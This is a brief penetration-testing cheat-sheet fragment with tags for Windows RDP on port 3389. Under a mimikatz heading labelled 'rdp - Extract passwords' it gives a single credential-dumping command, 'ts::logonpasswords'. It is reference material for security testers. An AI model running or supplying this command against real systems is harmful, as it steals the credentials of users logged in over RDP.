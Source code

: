 # windows
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON 

# powershell
% rdp, windows, 3389
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON  #tag/powershell 

# mimikatz

% mimikatz, passwords
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 


% mimikatz, rdp


## rdp - Extract passwords
```
ts::logonpasswords
```